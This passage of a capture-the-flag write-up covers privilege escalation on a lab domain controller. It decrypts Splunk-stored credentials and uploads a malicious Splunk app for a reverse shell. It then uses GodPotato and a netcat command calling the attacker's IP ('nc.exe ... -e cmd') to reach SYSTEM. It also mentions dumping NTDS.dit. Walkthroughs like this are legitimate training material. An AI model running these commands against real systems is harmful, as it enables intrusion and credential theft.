

At this point we can get a shell over WinRM and grab the user flag under their Desktop folder.

```
└─$ evil-winrm -i DC01.HAZE.HTB -u 'edward.martin' -H '[REDACTED]'
```



With access to the Backups directory, we can begin focusing on escalating privileges to Administrator.

## Privilege Escalation

### Splunk Backup Archive
Taking a peek inside shows just one Zip archive for a backup of Splunk which I download to my local machine.



This contains all the config files for the Splunk instance, including the one from earlier that contains an LDAP bind password hash. Checking the same file reveals a new one for the Alexander.Green user.

```
└─$ cat Splunk/var/run/splunk/confsnapshot/baseline_local/system/local/authentication.conf
```



We can repeat the same steps from earlier to decrypt this password hash and grab credentials for Alexander.Green.

```
└─$ cat SplunkBackup/Splunk/etc/auth/splunk.secret

└─$ splunksecrets splunk-decrypt -S splunk.secret --ciphertext '$1$YDz8WfhoCWmf6aTRkA+QqUI='
```



### Splunk RCE via Malicious App
These credentials actually don't work to authenticate on the domain, however we can use this password with the username of Admin to login at the Splunk portal on port 8000.



Seeing as how we have Administrative privileges over the site, it will be relatively easy to install something like a malicious plugin. A bit of research on the topic led me to discovering this [GitHub repository](https://github.com/0xjpuff/reverse_shell_splunk) that holds a fake app that can be uploaded to Splunk in order to grab a reverse shell.

```
└─$ git clone https://github.com/0xjpuff/reverse_shell_splunk

└─$ tree .
```



This holds a PowerShell script which we must edit in order to match our IP address and port number. The inputs.conf file specifies to execute the batch script every 10 seconds and the Python script is targeted for Linux installs, which we won't need.

Once everything is altered to our liking, we can compress it into a TAR archive to prepare it for upload.

```
└─$ tar -cvzf rev.tgz reverse_shell_splunk/
```

On the Splunk Dashboard, we navigate to **Apps > Manage Apps** and click the Install Apps from File in the top right corner.



It seems like changing the filename to end in .spl works to upload and prompts us to restart the application which is not needed. Standing up a Netcat listener and waiting a few seconds grants us a shell as Alexander.Green on the DC.

_Note: If you cloned the GitHub repo, you may have to delete the .git directory before compressing in order to get this to work._

```
└─$ rlwrap -cAr nc -lvnp 443
```



### Abusing SeImpersonate
Listing this user's token privileges shows that we have SeImpersonate and can use one of the potato exploits to escalate privileges to **SYSTEM**.



I proceed with using [GodPotato](https://github.com/BeichenDream/GodPotato) to execute commands as SYSTEM and grab a reverse shell via a Netcat binary.

```
PS> curl http://10.10.14.243/nc.exe -o nc.exe

PS> curl http://10.10.14.243/GodPotato-NET4.exe -o GodPotato.exe

PS> .\GodPotato.exe -cmd "C:\temp\nc.exe 10.10.14.243 445 -e cmd"
```



After receiving a connection, we get a semi-interactive shell as **NT AUTHORITY\SYSTEM** and can grab the root flag under the Administrator's Desktop folder to complete this challenge. I'm not too sure why this shell wasn't displaying specific commands, but we could add another user to an Administrator group or grab NTDS.dit and the SYSTEM registry to dump all domain hashes for persistence.

I hope this was helpful to anyone following along or stuck and happy hacking!
